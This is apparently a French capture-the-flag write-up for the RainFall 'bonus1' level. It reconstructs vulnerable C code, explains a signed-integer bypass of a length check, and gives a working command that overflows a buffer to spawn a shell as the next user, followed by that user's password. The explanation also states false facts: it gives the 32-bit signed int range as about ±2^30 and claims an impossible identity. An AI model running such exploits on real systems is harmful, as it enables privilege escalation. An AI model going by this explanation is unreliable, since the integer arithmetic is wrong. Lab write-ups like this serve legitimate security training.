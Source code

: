 # Bonus1

pass : `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## Sources :

```c
#include <stdlib.h>
#include <string.h>

int		main(int ac, char **av) {
	char str[40];  // esp+0x14  --  size : 0x3c - 0x14
	int nb;  // esp+0x3c

	nb = atoi(av[1]);
	if (nb > 9) {
		return 1;
	}
	memcpy(str, av[2], 4 * nb);
	if (nb == 0x574f4c46) {
		execl("/bin/sh", "sh", 0);
	}
	return 0;
}
```

## Recherche :

Pour changer la valeur de `nb`, il faudrait écrire suffisament loin sur `str`, exactement au 40<sup>ème</sup> caractère.

Le problème, c'est que `nb` ne peut pas dépasser 9.

Mais c'est pas très grave, car les int sont circulaires, en effet quand on passe le plus grand int, on arrive au plus petit.

On voudrait mettre `nb == 11` pour réécrire dessus.

on est en **32bit**, du coup les int sont codés entre `0x00000000` et `0xffffffff`, ce qui fait `2^32 - 1` valeures possibles. Comme ils sont signé, c’est divisé par 2, le plus petit int, c’est `-(2^30 - 1)` et le plus grand `2^30`
Du coup `-(2^30 - 1) - 2^30  == 0`
```python
>>> -(2**30 - 1) - (2**30) + 11
-2147483636
```

## Exploit :

```shell
bonus1@RainFall:~$ ./bonus1 -2147483636 $(perl -e 'print "A"x40 . "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
